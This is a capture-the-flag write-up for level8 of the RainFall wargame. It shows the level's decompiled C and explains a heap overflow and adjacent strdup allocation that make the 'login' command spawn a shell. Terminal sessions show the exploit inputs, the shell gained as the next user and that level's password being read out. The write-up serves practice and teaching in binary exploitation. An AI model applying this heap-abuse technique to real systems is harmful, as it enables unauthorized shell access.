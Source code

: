 # level8

This one is a weirdo. I will spare you from the output of the disassembly and use `IDA Pro`. `Ghidra` is outputting a mess because of the x86 strings instruction. `IDA Pro` does a nice job of replacing them by `memcmp` and `strlen` for readability, even if the `CMPS` and `SCAS` instruction are used instead.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[5]; // [esp+20h] [ebp-88h] BYREF
  char v5[2]; // [esp+25h] [ebp-83h] BYREF
  char v6[129]; // [esp+27h] [ebp-81h] BYREF

  while ( 1 )
  {
    printf("%p, %p \n", auth, (const void *)service);
    if ( !fgets(s, 128, stdin) )
      break;
    if ( !memcmp(s, "auth ", 5u) )
    {
      auth = (char *)malloc(4u);
      *(_DWORD *)auth = 0;
      if ( strlen(v5) <= 0x1E )
        strcpy(auth, v5);
    }
    if ( !memcmp(s, "reset", 5u) )
      free(auth);
    if ( !memcmp(s, "service", 6u) )
      service = (int)strdup(v6);
    if ( !memcmp(s, "login", 5u) )
    {
      if ( *((_DWORD *)auth + 8) )
        system("/bin/sh");
      else
        fwrite("Password:\n", 1u, 0xAu, stdout);
    }
  }
  return 0;
}
```

Our goal appears to be writing at the address contained by the global variable **auth**, offseted by 32 bytes. If there is some data there, we have access to our shell.

## auth

This code is crippled with vulnerabilities. The first one is an **heap-buffer overflow** :

```c
auth = (char *)malloc(4u);
*(_DWORD *)auth = 0;
if ( strlen(v5) <= 0x1E )
    strcpy(auth, v5);
```

Allocating a buffer of 4 bytes, and then proceed to copy at most 30 bytes from the user input. If we attempt to fill this buffer more than 13 bytes, using the `reset` will trigger an abort because we corrupted `malloc` internal block structure :

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth AAAAAAAAAAAAAA
0x804a008, (nil) 
reset
*** glibc detected *** ./level8: free(): invalid next size (fast): 0x0804a008 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x74f82)[0xb7ea0f82]
./level8[0x8048678]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb7e454d3]
./level8[0x80484d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 00:10 8117       /home/user/level8/level8
08049000-0804a000 rwxp 00000000 00:10 8117       /home/user/level8/level8
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e07000-b7e23000 r-xp 00000000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e23000-b7e24000 r-xp 0001b000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e24000-b7e25000 rwxp 0001c000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e2b000-b7e2c000 rwxp 00000000 00:00 0 
b7e2c000-b7fcf000 r-xp 00000000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fcf000-b7fd1000 r-xp 001a3000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd2000 rwxp 001a5000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd2000-b7fd5000 rwxp 00000000 00:00 0 
b7fd8000-b7fdd000 rwxp 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
Aborted (core dumped)
```

Nothing really crusty here to get access to our shell.

# service

Service is using `strdup` on the user input. If used directly after an `auth` command, `malloc` (used by `strdup`) will allocate a block just 16 bytes after auth.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth PPPP
0x804a008, (nil) 
service PPPPP
0x804a008, 0x804a018 
```

# login

The conditional `if ( *((_DWORD *)auth + 8) )` becomes : if the address `0x804a008 + 0x20` contains a non-zero value. We can see that `service` is allocated at `0x804a018`. By filling the buffer pointed by `service`, this condition becomes true.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth PPPP
0x804a008, (nil) 
service PPPPP
0x804a008, 0x804a018 
^C
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth AAAA
0x804a008, (nil) 
service PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP
0x804a008, 0x804a018 
login
$ whoami
level9
$ cd ../level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
0x804a008, 0x804a018 
```

This one was easy !